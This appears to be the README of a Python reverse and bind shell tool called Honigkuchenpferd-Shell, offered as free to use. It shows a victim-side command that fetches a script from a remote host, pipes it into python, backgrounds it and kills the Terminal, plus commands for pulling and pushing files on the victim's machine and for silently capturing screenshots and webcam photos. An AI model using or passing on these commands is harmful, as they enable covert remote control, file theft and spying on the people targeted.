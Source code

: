 ![Screenshot](picture/hacking-is-bad-mmmkay.jpg)

# Honigkuchenpferd-Shell

free to use but doesn't mess up mmmkay !

Simple Reverse and Bind Shell

python2.7 and python3

## Server
```
/bin/python3 srv.py
```
## Victim
```
curl -s http://$IP:$PORT/Honigkuchenpferd.py | /usr/bin/python  & disown; killall Terminal
```


## download File
```
[Honigkuchenpferd /home/Doofy/Dokumente/sus_stuff] download sus_text.txt
```
## upload File
```
[Honigkuchenpferd /home/Doofy/Dokumente/sus_stuff] upload sus_prog.bin
```


## macOS:
### Screenshot
```
screencapture -x /tmp/screenshot.jpg
```
## ffmpeg:
### Screenshot
```
ffmpeg -f x11grab -framerate 1 -i :0.0 -vframes 1 screenshot.jpg
```
### Selfie
```
#Selfie
ffmpeg -f video4linux2 -s 640x480 -i /dev/video0 -ss 0:0:1 -frames 1 /tmp/selfie.jpg
```
